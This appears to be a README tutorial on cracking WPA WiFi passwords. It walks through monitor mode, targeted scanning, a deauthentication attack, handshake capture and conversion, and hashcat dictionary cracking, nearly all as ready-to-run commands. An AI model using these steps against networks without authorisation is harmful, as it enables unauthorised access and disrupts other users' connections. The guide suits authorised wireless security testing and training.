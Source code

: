 # 🕵️‍♂️ How to Crack WiFi: A Method Utilizing Handshakes 📡

## **🛠 Tools Required**

- **Aircrack-ng:** [https://github.com/aircrack-ng/aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) 🌐
- **Hashcat:** [https://github.com/hashcat/hashcat](https://github.com/hashcat/hashcat) 🔓

## **🔧 Setup and Monitoring**

### 📶 Identify Wireless Adapter
- **Command:** `iwconfig` or `ifconfig`

### 🚫 Kill Competing Processes
- **Command:** `sudo airmon-ng check kill`

### 📡 Enable Monitor Mode
- **Command:** `airmon-ng start <network interface>`
- **Note:** The card name often changes after being switched to monitor mode, confirm the name of your card with `iwconfig` or `ifconfig`.

## **🔍 Network Scanning**

### 🐜 Scan for Networks
- **Command:** `sudo airodump-ng <network interface>`

### 🎯 Focus Scan on Target Network
- **Command:** `sudo airodump-ng <network interface> --bssid <AP>`

## **📦 Capture Packets**

### 💾 Capture and Save Packets
- **Command:** `sudo airodump-ng -c <channel number> --bssid <AP BSSID> <network interface> -w <path for saved packets file>`

### 🛑 De-authentication Attack
- **Command:** `sudo aireplay-ng -a <BSSID of the AP> --deauth <time> <network interface>`
- **Tip:** Targeting a client may be more effective than targeting the access point directly: `sudo aireplay-ng -a <BSSID of the AP> -c <BSSID of the Client> --deauth <time> <network interface>`

### ✅ Handshake Capture
- **Watch for:** `WPA handshake: <mac address>`
- **Tip:** If `WPA handshake: <mac address>` isn't displayed, you haven't captured the handshake. Try targeting the AP itself and each client individually. 

## **🔄 Post-Capture Processing**

### 🔄 Return Wireless Adapter to Managed Mode
- **Command:** `sudo service NetworkManager restart`

### 🔑 Convert Handshake to Hashcat Format
- **Tool:** [Hashcat cap2hashcat](https://hashcat.net/cap2hashcat/)
- **Tip:** Upload the saved packets file. If the file is to big (>20MB), optimize the file using the command below.

### 🗑 Optimize Capture File Size
- **Command:** `tshark -r dumpfile.cap/pcap -R "(wlan.fc.type_subtype == 0x00 || wlan.fc.type_subtype == 0x02 || wlan.fc.type_subtype == 0x04 || wlan.fc.type_subtype == 0x05 || wlan.fc.type_subtype == 0x08 || eapol)" -2 -F pcapng -w stripped.pcapng`

## **🔓 Cracking the Handshake**

### 🚀 Crack with Hashcat
- **Command:** `hashcat -m 22000 -o /path/to/output/file /path/to/converted/handshake/hash /path/to/wordlist -r /path/to/ruleset`
- **Recommended Wordlist and Ruleset:** Rockyou.txt and OneRuleToRuleThemStill

---

📌 Remember to operate ethically and within the bounds of the law when using these tools.
